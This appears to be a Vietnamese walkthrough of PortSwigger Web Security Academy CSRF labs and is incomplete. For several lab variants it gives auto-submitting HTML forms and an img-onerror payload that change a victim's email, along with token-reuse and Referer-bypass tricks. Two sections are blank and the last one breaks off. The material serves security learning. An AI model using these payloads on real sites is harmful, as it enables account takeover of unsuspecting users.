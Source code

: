 # 1. CSRF vulnerability with no defenses
Vào exploit server, cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0afb00eb04d9b8bec0d9405a00290069.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker2@email.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 2. CSRF where token validation depends on request method
Request thay đổi email là `POST /my-account/change-email` với hai tham số `email` và `csrf`. Tuy nhiên nhận thấy nếu ta thay đổi request thành `GET /my-account/change-email?email=attacker%40gmail.com`, cho dù không có tham số `csrf` thì email vẫn bị thay đổi thành công

Vào exploit server cấu hình đoạn XML sau:

```
<img src=1 onerror="document.location='https://0a06005e03421b53c1c14436007600ad.web-security-academy.net/my-account/change-email?email=attacker@gmail.com'">
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 3. CSRF where token validation depends on token being present
Ta thấy khi trong request không có tham số `csrf`, email vẫn bị thay đổi. Như vậy ta vào exploit server và cấu hình đoạn HTML:

```
<form method="POST" action="https://0a35003f047cea06c1019ee1003c006c.web-security-academy.net/my-account/change-email" id="form">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 4. CSRF where token is not tied to user session
Đăng nhập vào tài khoản wiener:peter rồi vào trang "My account", lưu lại csrf token. Sau đó logout rồi đăng nhập vào tài khoản carlos:montoya, dùng session của carlos và csrf token đã lưu của wiener để submit một request `POST /my-account/change-email`. Kết quả email bị thay đổi. Như vậy giữa csrf và session không có mối liên hệ với nhau. Với một csrf token chưa được sử dụng, ta có thể submit với bất kỳ session nào.

Ta đăng nhập lại tài khoản wiener:peter, lưu lại csrf token là `w9lcvACTQ0fT30znoZiPT42ILgGHkFnF`, sau đó và exploit server để cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0a1a008e03260d9ac1a3879500b300b3.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="w9lcvACTQ0fT30znoZiPT42ILgGHkFnF">
</form>

<script>form.submit();</script>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.

# 5. CSRF where token is tied to non-session cookie

# 6. CSRF where token is duplicated in cookie

# 7. CSRF where Referer validation depends on header being present
Ta thấy việc email có được thay đổi thành công hay không phụ thuộc vào việc Referer header có domain là `https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net` hay không. Tuy nhiên nếu ta xóa đi Referer header, email vẫn bị thay đổi.

Như vậy, ta vào exploit server và cấu hình đoạn HTML sau:
```
<html>
<head>
<meta name="referrer" content="never">
</head>
<body>
<form id="form" method="POST" action="https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
</body>
</html>
```

Thẻ `<meta name="referrer" content="never">` sẽ ngăn không đưa dữ liệu vào header Referer của request tiếp theo. Sau khi click "Deliver to victim", kết quả thành công. 

# 8. CSRF with broken Referer validation
Ta thấy chỉ khi Referer header có domain là `https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net` thì request đổi email mới được thực hiện thành công. Thử với payload là `https://attacker.com#https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net`, kết quả email vẫn bị đổi. Như vậy server chỉ kiểm tra trong Referer header có chứa chuỗi `https://0af000b004b75bb2c19df8f1007a00bf.web-security-academy.net` hay không.

Vào exploit server
